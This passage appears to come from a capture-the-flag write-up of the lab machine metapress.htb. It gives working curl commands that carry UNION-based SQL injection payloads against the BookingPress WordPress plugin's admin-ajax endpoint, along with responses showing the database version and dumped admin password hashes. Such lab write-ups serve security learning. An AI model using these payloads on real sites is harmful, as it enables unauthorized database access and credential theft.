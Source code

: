 ```
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

{"variant":"error","title":"Error","msg":"Sorry, Your request can not process due to security reason."} 
```

It seems that the `wpnonce` variable is incorrectly set. After changing it to a relevant one, we get confirmation that this works:

{% code overflow="wrap" %}
```
$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=75eb04a260&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sun, 07 May 2023 03:25:53 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}] 
```
{% endcode %}

With this, we can retrieve the user hashes:

{% code overflow="wrap" %}
```
$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=75eb04a260&category_id=33&total_service=-7502) UNION ALL SELECT group_concat(user_login), group_concat(user_pass), @@version_compile_os,1,2,3,4,5,6 from wp_users-- -'
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sun, 07 May 2023 03:27:42 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"admin,manager","bookingpress_category_id":"$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.,$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70", <TRUNCATED>
```
{% endcode %}
